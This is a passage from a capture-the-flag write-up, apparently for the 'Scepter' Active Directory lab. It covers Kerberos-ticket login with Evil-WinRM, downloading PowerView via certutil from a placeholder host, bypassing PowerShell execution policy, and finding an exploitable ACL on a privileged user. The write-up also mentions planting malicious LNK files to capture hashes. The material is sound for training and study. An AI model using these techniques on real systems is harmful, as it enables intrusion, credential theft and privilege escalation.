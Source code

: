     ![](https://cdn-images-1.medium.com/max/1000/1*FXrt0NxqU2PIURVrwM54MQ.png)
    
    We gain h.brown's NT hash and a ticket to use for Kerberos authentication. NT hash is useless for now as h.brown is member of protected users group which preventing the use of NTLM authentication and legacy protocols.

### Initial Access

```bash
export KRB5CCNAME=h.brown.ccache
evil-winrm -i dc01.scepter.htb -r scepter.htb 
```

![](https://cdn-images-1.medium.com/max/1000/1*VL8YqYSlGaoe320R6tSgXw.png)



## Privilege Escalation

After initial access to a machine, I typically focus on expanding visibility over the environment by profiling the current user and installed applications. I also check for any internal applications running on local ports; tools like WinPEAS help automate this process.
Next, I prefer to gather another dump of Active Directory data using SharpHound, as BloodHound.py often misses important details, especially around ADCS objects. I also run additional enumeration scripts like PowerView’s Find-Interesting* functions such Find-InterestingDomainAcl to uncover less important ACLs and relationships that BloodHound doesn’t visualize. If enumeration shows no immediate leads, I escalate to tools like Snaffler, Inveigh, or deploy multiple malicious LNK files on shared folders to capture hashes.

### Finding Privileged ACLs

During this enumeration, I identified through PowerView’s `Find-InterestingDomainAcl` function an interesting ACL applied to a high-privilege user `p.adams`. This user was already marked as a potential target during initial recon.

1. Upload PowerView to the machine
    + Using Evil-WinRM’s upload functionality
    + Or with certutil
    ```powershell
    certutil -urlcache -split -f http://ip:port/powerview.ps1
    ```
2. Import PowerView and start enumeration

    ```powershell
    Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
    Import-Module .\PowerView.ps1
    Find-InterestingDomainAcl  -ResolveGUIDs
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*80m_F3i9PzNHgX8ePuZMsQ.png)

The CMS group has been explicitly granted **WriteProperty** rights over the `altSecurityIdentities` attribute of the **`p.adams`** user object. The permission applies only to this specific attribute, not the entire object. Because the ACE is inherited by the CMS group, any user within that group (including h.brown) can modify p.adams's altSecurityIdentities
